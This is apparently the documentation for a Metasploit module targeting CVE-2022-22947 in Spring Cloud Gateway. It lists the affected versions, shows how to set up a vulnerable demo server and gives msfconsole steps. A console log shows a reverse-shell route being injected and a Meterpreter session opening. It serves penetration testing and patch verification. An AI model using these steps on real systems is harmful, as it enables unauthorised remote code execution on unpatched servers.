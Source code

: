## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an RCE vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947), the versions affected are :

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

This demo [project](https://github.com/wdahlenburg/spring-gateway-demo) can be used to run a vulnerable server 
    
### Installation Instructions

```bash
# To use the pre-compile vulnerable application
wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
sudo apt install default-jdk
java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar ## This will host the app on port 9000


# If you want to compile for a version of spring cloud gateway on your own
git clone https://github.com/wdahlenburg/spring-gateway-demo.git

## In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. To see which spring cloud version includes which version of spring cloud gateway, look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

apt install maven
mvn package -DskipTests
java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar ## This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a meterpreter shell.


### Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64

```
msf6 > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf6 exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.19.140:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server vulnerable
[+] Route deleted
[+] The target is vulnerable.
[+] Created route successfully with the reverse shell
[*] Trigerring reverse shell
[*] Sending stage (3020772 bytes) to 192.168.19.140
[*] Meterpreter session 1 opened (192.168.19.140:4444 -> 192.168.19.140:59916) at 2022-10-01 14:21:31 -0400
[+] Route deleted
[+] Enjoy your Shell

meterpreter >
```